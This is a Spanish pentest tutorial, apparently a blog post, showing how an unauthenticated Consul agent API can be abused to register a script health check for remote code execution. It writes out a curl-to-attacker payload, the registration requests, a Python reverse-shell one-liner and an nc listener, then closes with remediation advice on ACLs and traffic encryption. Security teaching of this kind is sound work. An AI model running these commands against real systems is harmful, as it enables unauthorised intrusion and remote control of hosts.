 ```yaml
---
title: "Explotar Consul para obtener una reverse shell"
author: Adan Alvarez
classes: wide
excerpt: "Durante un test de penetración, uno de los objetivos más importantes son los equipos y programas de monitorización y configuración. Tomar el control de estos normalmente implica poder tener acceso a toda la red. En esta entrada veremos como una configuración incorrecta nos puede permitir explotar Consul para ejecutar código en los equipos que estén ejecutando el agente."
categories:
  - Herramientas
tags:
  - Red Team
  - Pentest
  - Reverse Shell
---
```

Durante un test de penetración, uno de los objetivos más importantes son los equipos y programas de monitorización y configuración. Tomar el control de estos normalmente implica poder tener acceso a toda la red. En esta entrada veremos como una configuración incorrecta nos puede permitir explotar Consul para ejecutar código en los equipos que estén ejecutando el agente.
{: style="text-align: justify;"}

[Consul](https://www.consul.io/) es una herramienta para el descubrimiento y configuración de servicios. Entre otras funcionalidades permite el descubrimiento de servicios, alertas sobre la salud de los clusters, almacenamiento de configuraciones dinámicas etc...
{: style="text-align: justify;"}

La funcionalidad que explotaremos en este caso es la de alertas del cluster. Los agentes de consul permiten crear [checks de salud mediante la API](https://www.consul.io/api/agent/check.html). Estos [checks](https://www.consul.io/docs/agent/checks.html) pueden ser de diferentes tipos, incluso pueden permitir la ejecución de scripts.
{: style="text-align: justify;"}

Verificando la ejecución de comandos
------------------------------------

Por defecto, los agentes de consul escuchan en el puerto 8500 y permiten peticiones HTTP. Durante un pentest, si descubrimos un puerto 8500 abierto será importante verificar si se trata de la API de consul. Para esto,  podemos realizar un simple: curl ip:8500 y la respuesta será Consul Agent.
{: style="text-align: justify;"}

[![](https://donttouchmynet.github.io/assets/images/old/curl_nmap-1-300x85.png)](https://donttouchmynet.github.io/assets/images/old/curl_nmap-1.png)

Si realmente es un Consul Agent podemos utilizar la función de checks para ejecutar código.  Podemos hacer una prueba creando un fichero con el siguiente contenido llamado payload.json:
{: style="text-align: justify;"}
```
{
"ID": "command",
"Name": "id",
"Args": ["curl", "IP_PROPIA"],
"Shell": "/bin/bash",
"Interval": "5s"
}
```
y ejecutando el siguiente curl para crear el check:
{: style="text-align: justify;"}
```
curl --request PUT --data @payload.json http://IP_VICTIMA:8500/v1/agent/check/register
```
Levantamos un servidor web con python y si funciona recibiremos una petición web del servidor en nuestra IP:
{: style="text-align: justify;"}

[![](https://donttouchmynet.github.io/assets/images/old/webserver-300x56.png)](https://donttouchmynet.github.io/assets/images/old/webserver.png)

Si queremos desregistrar el check podemos utilizar:
{: style="text-align: justify;"}
```
curl --request PUT http://IP_VICTIMA:8500/v1/agent/check/deregister/command
```
Explotar consul y obtener una reverse shell
-------------------------------------------

Si la ejecución de comandos funciona. El próximo paso puede ser explotar Consul para obtener una shell remota, para esto podemos utilizar python ejecutando:
{: style="text-align: justify;"}
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Para facilitar la explotación podéis utilizar el siguiente script: [exploit-consul](https://github.com/adanalvarez/exploit-consul) que podéis encontrar también en nuestra sección de [herramientas](https://donttouchmy.net/herramientas/).
{: style="text-align: justify;"}

Para obtener una reverse shell primero utilizaremos el comando nc -lvp 4567 para esperar una conexión en el puerto 4567.
{: style="text-align: justify;"}

[![](https://donttouchmynet.github.io/assets/images/old/nc-1-300x65.png)](https://donttouchmynet.github.io/assets/images/old/nc-1.png)

Tras esto ejecutamos el script indicando la URL, nuestra IP y el puerto de escucha de nc:
{: style="text-align: justify;"}
```
python consul_exploit.py --url http://IP_VICTIMA:8500 --ip IP_PROPIA --port 4567
```
[![exploit consul](https://donttouchmynet.github.io/assets/images/old/python_exploit-300x16.png)](https://donttouchmynet.github.io/assets/images/old/python_exploit.png)

Al cabo de unos segundos recibiremos la reverse shell:
{: style="text-align: justify;"}

[![exploit consul](https://donttouchmynet.github.io/assets/images/old/nc_reverse-300x121.png)](https://donttouchmynet.github.io/assets/images/old/nc_reverse.png)

Remediación
-----------

Consul no opera en una configuración segura por defecto por lo que las diferentes configuraciones de seguridad deben ser activadas.
{: style="text-align: justify;"}

Consul se debe configurar para [usar ACLs](https://www.consul.io/docs/guides/acl.html#complete-acl-coverage-in-consul-0-8) con listas blancas para así solo permitir accesos mediante tokens válidos. Además se debe habilitar la opción de [cifrado de tráfico](https://www.consul.io/docs/agent/encryption.html) para evitar que las peticiones se envíen en texto plano.
{: style="text-align: justify;"}
